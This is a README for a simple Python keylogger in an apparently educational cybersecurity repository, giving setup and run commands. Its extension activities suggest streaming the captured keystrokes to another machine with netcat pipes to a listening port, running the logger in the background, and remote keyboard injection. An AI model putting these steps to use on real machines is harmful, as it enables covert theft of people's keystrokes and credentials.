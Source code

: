 # simple keylogger

Keyloggers are simple to build with the 'keyboard' module!

## Running from fun_with_cybersec folder
* First, follow instructions [here](https://github.com/FrozenBurrito/fun_with_cybersec/blob/main/README.md) to setup virtual environment.
* Running on Linux
```
source .venv/bin/activate
python simple_keylogger.py
```
* Running on Windows
```
scripts\activate.bat
python simple_keylogger.py
```
<img src="kl_screenshot.png" width="75%" height="75%" />

## Extension Activities
* Modify simple_keylogger.py to:
  * Save the output to file.
    * See 'use as standalone module' in github repo linked below.
  * Stream output remotely or schedule data dumps 
    * Try using sockets or ngrok+flask
* Command line extension activities:
  * Stream output with netcat:
    * Server, Keylogger (ex: 10.2.0.5):
      * python3 kl.py | nc -lkv 7777.  
      * or, python -m keyboard | nc -lkv 7777
    * Client (ex: 10.2.0.6):  
      * nc -zv 10.2.0.5 7777
      * or, use firefox.
  * Run in background using '&' and pipe output to file.
* Remote keyboard injection (possible with keyboard module)

## Helpful Libraries and Links

* [keyboard module](https://github.com/boppreh/keyboard)
* [netcat man page](https://man7.org/linux/man-pages/man1/ncat.1.html)
* [ncat by nmap](https://nmap.org/ncat/guide/index.html
